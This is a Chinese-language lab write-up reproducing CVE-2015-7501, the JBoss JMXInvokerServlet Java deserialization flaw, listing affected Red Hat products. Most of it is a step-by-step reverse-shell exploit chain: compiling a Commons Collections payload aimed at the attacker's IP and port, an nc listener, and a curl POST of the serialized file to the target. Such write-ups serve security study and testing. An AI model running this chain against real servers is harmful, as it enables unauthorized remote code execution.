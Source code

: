 ```yaml
---
title: "（CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞"
id: zhfly2984
---
```


# （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞

## 一、漏洞简介

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

## 二、漏洞影响

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS 6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV) 6.x版本和5.x版本；Enterprise Application Platform 6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW) 6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

## 三、复现过程

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入[http://172.26.1.151:8080/invoker/JMXInvokerServlet](http://172.26.1.151:8080/invoker/JMXInvokerServlet) 返回如图，说明接口开发，存在反序列化漏洞

![image](../img/c5512da83d294f63918fbd8c260e0089.png)

进入kali攻击机，下载反序列化工具:[https://github.com/ianxtianxt/CVE-2015-7501/](https://github.com/ianxtianxt/CVE-2015-7501/)

解压完，进入到这个工具目录 ,执行命令:

```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java 
```

继续执行命令:

```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

```
curl http://172.26.1.151:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ReverseShellCommonsCollectionsHashMap.ser 
```

![image](../img/07d7c1977844ba20a10d937871c15cba.png)

打开nc界面，发现shell已经弹回来了

![image](../img/778060853ab56211b93d767fa8272659.png)